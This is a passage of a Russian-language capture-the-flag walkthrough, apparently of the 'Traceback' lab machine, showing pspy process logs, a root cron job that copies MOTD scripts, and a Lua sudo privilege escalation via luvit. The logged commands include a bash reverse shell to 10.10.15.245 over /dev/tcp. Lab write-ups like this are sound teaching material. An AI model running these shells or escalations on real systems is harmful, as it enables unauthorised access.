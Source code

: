 ```html
2020/05/08 07:29:01 CMD: UID=0    PID=24381  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/05/08 07:29:01 CMD: UID=0    PID=24380  | <mark>/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/</mark>
2020/05/08 07:29:10 CMD: UID=1000 PID=24384  | sudo -u sysadmin /home/sysadmin/luvit lmao.lau 
2020/05/08 07:29:10 CMD: UID=1001 PID=24385  | /home/sysadmin/luvit lmao.lau 
2020/05/08 07:29:18 CMD: UID=1001 PID=24390  | nano /etc/update-motd.d/00-header 
2020/05/08 07:29:30 CMD: UID=1001 PID=24439  | nano /etc/update-motd.d/00-header 
2020/05/08 07:29:35 CMD: UID=1000 PID=24445  | 
2020/05/08 07:29:35 CMD: UID=1000 PID=24446  | 
2020/05/08 07:29:41 CMD: UID=1001 PID=24450  | nano /etc/update-motd.d/00-header 
2020/05/08 07:29:43 CMD: UID=0    PID=24451  | 
2020/05/08 07:29:44 CMD: UID=1000 PID=24452  | locate note.txt 
2020/05/08 07:29:47 CMD: UID=1001 PID=24453  | bash -c exec bash -i &>/dev/tcp/10.10.15.245/6001 <&1 
2020/05/08 07:29:47 CMD: UID=1001 PID=24457  | /bin/sh /usr/bin/lesspipe 
2020/05/08 07:29:47 CMD: UID=1001 PID=24456  | bash -i 
2020/05/08 07:29:47 CMD: UID=1001 PID=24459  | /bin/sh /usr/bin/lesspipe 
2020/05/08 07:29:47 CMD: UID=1001 PID=24462  | dircolors -b 
2020/05/08 07:29:47 CMD: UID=1001 PID=24461  | bash -i 
2020/05/08 07:29:53 CMD: UID=1000 PID=24509  | sudo -u sysadmin /home/sysadmin/luvit lmao.lau 
2020/05/08 07:29:53 CMD: UID=1001 PID=24510  | /home/sysadmin/luvit lmao.lau 
2020/05/08 07:30:00 CMD: UID=1000 PID=24516  | sudo -l 
2020/05/08 07:30:01 CMD: UID=0    PID=24521  | sleep 30 
2020/05/08 07:30:01 CMD: UID=0    PID=24520  | /usr/sbin/CRON -f 
2020/05/08 07:30:01 CMD: UID=0    PID=24519  | <mark>/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ </mark>
2020/05/08 07:30:01 CMD: UID=0    PID=24518  | /usr/sbin/CRON -f 
2020/05/08 07:30:01 CMD: UID=0    PID=24517  | /usr/sbin/CRON -f 
^Z[1] + Stopped                    ./pspy64
```

>Каждые 30 секунд делается бэкап файлов из директории /var/backups/.update-motd.d/, но заюзать это я не смог, так как кто то ребутнул машину.

>При повторном получении юзера, я изменил файл privesc.lua, было:

```html
webadmin@traceback:~$ cat privesc.lua 
os.execute("/bin/sh")
```

>Стало:

```html
webadmin@traceback:~$ cat privesc.lua 
os.execute("/bin/bash")
```

>Далее повторяем прошлые действия и переходим в папку, куда делается бэкап:

```html
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
sysadmin@traceback:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
sysadmin@traceback:~$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls
00-header  10-help-text  50-motd-news  80-esm  91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland kirkland@canonical.com
#
#    This program is free software; you can redistribute it and/or modify
```